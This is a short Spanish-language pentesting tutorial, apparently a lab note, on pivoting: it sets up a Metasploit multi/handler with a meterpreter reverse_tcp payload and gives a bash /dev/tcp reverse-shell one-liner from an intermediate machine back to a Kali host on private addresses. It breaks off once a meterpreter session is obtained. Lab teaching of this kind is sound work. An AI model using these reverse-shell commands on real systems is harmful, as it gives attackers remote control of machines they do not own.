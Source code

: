 Ejemplo de escenario:
- Kali atacante (192.168.0.30)
- Máquina 1 (192.168.0.36 y 10.10.10.4)
- Máquina 2 (10.10.10.5)

Kali tiene conexión con máquina 1, pero no con máquina 2. Máquina 1 será la intermedia.

Desde Kali arrancamos Metasploit:

```
msfconsole
```

Ahora dentro de Metasploit buscamos el multi handler para ponerlo a la escucha:

```
msf> search /multi/handler
```

Lo seleccionamos y configuramos:

```
msf> use /multi/handler
msf> options
msf> set LHOST <IPKALI>
msf> set LPORT <puertoKaliQueQueramos>
```

Seleccionar un payload:

```
set payload <unoQueTengaMeterpreter>
```

Ejemplo:

```
set payload linux/x86/meterpreter/reverse_tcp
```

Buscamos que sea una sesión meterpreter porque así podemos hacer el pivoting.

Lanzamos y se queda a la escucha:

```
msf> run
```

Ahora desde máquina 1 podemos crear un msfvenom, o una revshell tal cual, etc.

Por ejemplo, en máquina 1:

```
bash -i >& /dev/tcp/<IPkali>/<puertoElegidoEnHandler> 0>&1
```

```
bash -i >& /dev/tcp/192.168.0.30/4444 0>&1
```


Una vez consigo sesión meterpreter, podemos poner ipconfig y ver las interfaces de red de máquina 1. 
